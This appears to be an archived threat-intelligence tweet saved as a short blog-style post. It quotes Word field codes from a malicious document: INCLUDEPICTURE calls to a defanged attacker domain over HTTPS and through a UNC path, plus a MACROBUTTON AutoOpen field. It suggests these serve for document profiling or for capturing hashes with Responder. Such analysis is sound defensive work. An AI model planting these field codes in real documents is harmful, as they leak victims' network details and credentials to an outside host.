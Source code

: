 ```yaml
---
layout: post
title: Nick Carr
date: 2018-07-20 03:00:21
tourl: https://t.co/mZbXbe0al0
tags: [Responder]
---
```

@DissectMalware MACROBUTTON AutoOpen  INCLUDEPICTURE "hxxps://secureaccess-se2[.]com/images/footer.jpg" \d \* MERGEFORMAT   INCLUDEPICTURE "\\\\secureaccess-se2[.]com/logos/penelope.jpg" \d \* MERGEFORMAT

^similar to document profilers used by others
Attacker watching logs or running responder?